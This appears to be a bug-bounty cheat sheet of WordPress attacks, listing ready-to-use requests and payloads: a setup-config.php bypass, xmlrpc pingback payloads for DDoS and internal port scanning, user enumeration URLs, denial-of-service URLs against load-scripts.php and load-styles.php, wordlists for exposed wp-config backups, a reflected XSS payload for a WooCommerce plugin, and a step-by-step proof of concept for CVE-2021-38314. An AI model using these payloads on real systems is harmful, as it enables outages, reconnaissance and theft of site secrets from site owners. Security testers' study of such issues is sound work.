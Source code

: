 ## 1. Create database
``` 
/wp-admin with 403 status 
Bypass it using /wp-admin/setup-config.php?step=1
This will allow you to create a database
```

## 2. xmlrpc.php

This is one of the common issue on wordpress. To get some bucks with this misconfiguration you must have to exploit it fully, and have to show the impact properly as well.

## Detection
* visit site.com/xmlrpc.php
* Get the error message about POST request only
## Exploit
* Intercept the request and change the method GET to POST
* List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
* Check the pingback.ping mentod is there or not
* Perform DDOS
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
* Perform SSRF (Internal PORT scan only)
```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
## 3. WP User Enumeration
This issue will only acceptable when target website is hiding their current users or they are not publically available. So attacker can use those user data for bruteforcing and other staff

## Detection
* 
```
visit site.com/wp-json/wp/v2/users/
```
* 
```
http://target.com/?author=1
```
* 
```
http://target.com/?rest_route=/wp/v2/users
```
* You will see json data with user info in response

## 4. Denial of Service via load-scripts.php
```
http://target.com/wp-admin/load-scripts.php?load=react,react-dom,moment,lodash,wp-polyfill-fetch,wp-polyfill-formdata,wp-polyfill-node-contains,wp-polyfill-url,wp-polyfill-dom-rect,wp-polyfill-element-closest,wp-polyfill,wp-block-library,wp-edit-post,wp-i18n,wp-hooks,wp-api-fetch,wp-data,wp-date,editor,colorpicker,media,wplink,link,utils,common,wp-sanitize,sack,quicktags,clipboard,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-reply,json2,underscore,backbone,wp-util,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrate,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,esprima,jshint,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-bar,wplink,wpdialogs,word-count,media-upload,hoverIntent,hoverintent-js,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embed,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,site-health,privacy-tools,updates,farbtastic,iris,wp-color-picker,dashboard,list-revisions,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
```
[h1 report](https://hackerone.com/reports/752010)

## 5. Denial of Service via load-styles.php
```
http://target.com/wp-admin/load-styles.php?&load=common,forms,admin-menu,dashboard,list-tables,edit,revisions,media,themes,about,nav-menus,widgets,site-icon,l10n,install,wp-color-picker,customize-controls,customize-widgets,customize-nav-menus,customize-preview,ie,login,site-health,buttons,admin-bar,wp-auth-check,editor-buttons,media-views,wp-pointer,wp-jquery-ui-dialog,wp-block-library-theme,wp-edit-blocks,wp-block-editor,wp-block-library,wp-components,wp-edit-post,wp-editor,wp-format-library,wp-list-reusable-blocks,wp-nux,deprecated-media,farbtastic
```
## 6. Log files exposed
```
http://target.com/wp-content/debug.log
```
## 7. Backup file wp-config exposed
```
.wp-config.php.swp
wp-config.inc
wp-config.old
wp-config.txt
wp-config.html
wp-config.php.bak
wp-config.php.dist
wp-config.php.inc
wp-config.php.old
wp-config.php.save
wp-config.php.swp
wp-config.php.txt
wp-config.php.zip
wp-config.php.html
wp-config.php~
```

## WordPress Plugin Advanced Order Export For WooCommerce 3.1.7 - Reflected Cross-Site Scripting (XSS)

```
wp-admin/admin.php?page=wc-order-export&tab=</script><script>alert(1)</script>
```

## Wordpress Plugin Update Confusion - The full guide how to scan and mitigate the next big Supply Chain Attack
https://galnagli.com/Wordpress_Plugin_Update_Confusion/

## Unauthenticated Sensitive Information Disclosure (CVE-2021–38314)
### Gutenberg Template Library & Redux Framework plugin <= 4.2.11 for WordPress
https://wahaz.medium.com/unauthenticated-sensitive-information-disclosure-at-redacted-2702224098c

```
Proof of Concept:
1. Found subdomain blog.redacted.com is using wordpress, then try the CVE-2021–38314
2. Using this script
$target = “https://blog.redacted.com";
$key1 = md5(“$target/-redux”);
$key2 = file_get_contents(“$target/wp-admin/admin-ajax.php?action=$key1”);
3. It returns e24eb61b09bf2340779b35xxxxxxxxxx a hash of the auth_key_secret_key with “-redux” appended.
4. Append “-support” and md5 it again and thats the new function hook name.
$key3 = md5($key2.’-support’);
5. Then get the hash 1505d4269113e1bda36c47xxxxxxxxxx
6. So what this code does is compare the code param with the output of https://verify.redux.io/?hash=1505d4269113e1bda36c47xxxxxxxxxx&site=http://blog.redacted.com/
$redux_code = b1mzZ3%2BU0p43TZ6%2F7QJaYU0hJMHgdcT5Bc%2Bnyo4t3xUenDRm0Ef8HipC7EMKSdtpw8g65XZjxxxxxxxxxxxxxxxxxxxx
7. Final URL https://blog.redacted.com/wp-admin/admin-ajax.php?action=1505d4269113e1bda36c47xxxxxxxxxx&code=b1mzZ3%2BU0p43TZ6%2F7QJaYU0hJMHgdcT5Bc%2Bnyo4t3xUenDRm0Ef8HipC7EMKSdtpw8g65XZjxxxxxxxxxxxxxxxxxxxx
```


```
For WordPress wp-config file, if the main endpoint is forbidden we can also check for the backup file

redacted[.]com/wp-config.php => 403 Forbidden

redacted[.]com/wp-config.php_orig => 200 OK

Also try:
 _new _old _orig _bkp _bak with dashes,fullstops and underscores
```


